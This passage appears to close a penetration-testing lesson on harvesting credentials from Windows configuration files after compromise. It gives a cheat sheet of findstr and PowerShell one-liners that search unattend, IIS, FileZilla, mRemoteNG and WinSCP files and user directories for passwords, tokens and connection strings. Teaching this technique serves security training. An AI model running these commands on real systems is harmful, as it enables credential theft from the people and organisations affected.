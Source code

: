 - Some apps obfuscate values (base64, app-specific crypto). Try obvious decodes first; otherwise note and move on.
- Validate carefully and ethically in lab environments; avoid account lockouts.

## Minimal cheat sheet (one-screen flow)
```
:: Unattend/Sysprep
for %p in ("C:\unattend.xml" "C:\Windows\Panther\Unattend.xml" "C:\Windows\System32\Sysprep\unattend.xml" "C:\Windows\Sysprep\sysprep.xml") do @if exist %p (echo [*] %p && findstr /si /n /c:"password" /c:"plaintext" /c:"credentials" "%p")

:: IIS / .NET
findstr /si /n /c:"connectionstring" /c:"password" "C:\inetpub\wwwroot\web.config" 2>nul
findstr /si /n /c:"connectionstring" /c:"password" "C:\Windows\System32\inetsrv\config\applicationHost.config" 2>nul

:: Common app configs
findstr /si /n /c:"pass" "%APPDATA%\FileZilla\sitemanager.xml" 2>nul
findstr /si /n /c:"password" "%APPDATA%\mRemoteNG\confCons.xml" 2>nul
findstr /si /n /c:"password" "%APPDATA%\WinSCP.ini" 2>nul

:: Broad search (CMD via where/findstr)
for /f "delims=" %f in ('where /r "C:\Users" *.config *.xml *.ini *.txt *.conf *.cfg *.ps1 *.bat *.vbs *.log') do @findstr /i /n /p /c:"password" /c:"pwd" /c:"user" /c:"credential" /c:"connectionstring" "%f" 2>nul

:: Broad search (PowerShell)
powershell -nop -c "$dirs='C:\Users','C:\ProgramData','C:\Program Files','C:\Program Files (x86)';$ext='*.config','*.xml','*.ini','*.txt','*.conf','*.cfg','*.ps1','*.bat','*.vbs','*.log';$pat='password|pwd|user|credential|connectionstring|token|secret';gci $dirs -r -inc $ext -file -ea SilentlyContinue|?{$_.Length -lt 5MB}|sls -Pattern $pat -AllMatches -CaseSensitive:$false|select Path,LineNumber,Line"
```

## Summary
- Searching Windows configuration files is a fast, low-noise way to harvest credentials post-compromise.
- Prioritize unattended installation files, IIS/.NET configs, and app-specific configs in user/AppData and ProgramData.
- Use built-in tools: findstr for quick wins; PowerShell Select-String for richer, filtered searches with context.
- Look for common credential patterns and store actionable hits. Decode simple obfuscation when encountered.
- If in a domain context, also consider GPP cpassword in SYSVOL (often covered in a separate lesson).